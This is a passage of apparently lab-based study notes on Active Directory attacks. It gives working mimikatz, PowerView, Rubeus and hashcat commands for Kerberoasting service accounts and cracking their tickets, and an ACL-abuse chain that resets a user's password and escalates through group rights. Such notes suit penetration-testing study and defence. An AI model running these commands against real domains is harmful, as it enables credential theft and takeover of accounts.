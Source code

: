 * Here, we are using the `System.IdentityModel` object.
* Feed in the SPN as an argument.

This loads the tickets into memory, and we can extract them using `mimikatz`.
`kerberos::list /export`.

* To export in `base64` format instead, we can specify `base64 /out:true` before running the command. Note that the `base64` encoded string must be converted to `kirbi` format.

The `kirbi` files can then be converted to `john` format using `kirbi2john`, and cracked with `john`.

* If we want to use `hashcat`, we have to modify the format: `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`

#### Automated method

Using PowerView:

* To enumerate SPNs: `Get-DomainUser * -spn | select samaccountname`
* To get ticket: `Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat`

Using `Rubeus`:

* Enumerate Kerberoastable users: `.\Rubeus.exe kerberoast /stats`
* Get tickets with no line-wrap: `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap`
* This targets administrative accounts.

## ACL Abuse

### Enumerating ACLs

We can enumerate ACLs with PowerView, using the `Find-InterestingDomainAcl` cmdlet.

* However, this will yield too many results for us to sieve through.

A better way is to only review the ACLs of users which we have control over.

* Get the SID of the user using the `Convert-NameToSid` cmdlet, and pass it as a filter to the `Get-DomainObjectACL` cmdlet, where we only look for objects which our user has rights to:
  `Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}`

Using BloodHound,

* Set our controlled user as the starting node, then look for outbound control rights.
* Look for transitive object control.

### ACL Abuse

Provided scenario:

1. Use the `wley` user to change the password for the `damundsen` user
2. Authenticate as the `damundsen` user and leverage `GenericAll` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

First step: authenticate as `wley` and create a new password for `damundsen`.
